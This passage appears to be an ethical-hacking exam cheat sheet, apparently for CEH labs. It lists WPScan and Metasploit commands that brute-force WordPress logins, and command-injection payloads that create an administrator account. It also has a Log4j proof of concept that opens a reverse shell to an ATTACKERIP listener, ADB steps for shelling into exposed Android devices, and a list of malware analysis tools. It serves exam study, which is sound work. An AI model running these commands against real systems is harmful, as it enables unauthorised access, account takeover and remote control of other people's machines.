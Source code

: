 ```
wpscan --url http://wphost --enumerate vp,vt --api-token <APITOKENINHERE> -t 50
```
- you will get userid from above then Bruteforces it
```
wpscan --url http://wphost/wp-login.php --passwords givepassword.txt -t 50
```

```
wpscan --url http://wphost/wp-login.php --passwords givepassword.txt --usernames givenusername.txt -t 50
```

```
msfconsole -q -x 'use auxiliary/scanner/http/wordpress_login_enum;set PASSFILE /home/attacker/HackingWeb/passwords.txt;set RHOSTS 192.168.9.32;set RPORT 8080;set USERNAME admin;set TARGETURI http://192.168.9.32:8080/CEH'
```
## Command Injection
```
| hostname
| whoami
| tasklist
| net user
| net user hacker hacker /add then | net localgroup Administrators hacker /add
```
## Log4j
```
change jdk1.8.0_20/bin/java with /usr/bin/jdk1.8.0_202/bin/java to all(62,87,99)
nc -nvlp 9001
python3 poc.py --userip ATTACKERIP --webport 8000 --lport 9001
Copy it to a username of login page
```
## Android
```
adb devices
```
- Hunting for ip address through scan and if got then
```
adb connect 192.168.0.100:5555
```
- Get shell
```
adb shell
```
- Navigate through shell
```
ls
whoami
cd sdcard/ [DEPEND ON QUESTION] [FIND HIDDEN SECRET]
ls -la
```
# Malware analysis
## Static Malware analysis
- Hybrid Analysis(Online)
- String search with BinText
- Packaging and Obfusication use PEid
- Analyze ELF use Detect It Easy(DIE)
- Analyze PE with PE explorer
- File Dependency with dependency walker
- Malware Dissembly with IDA and OllyDbg
- Malware Dissembly with Ghidra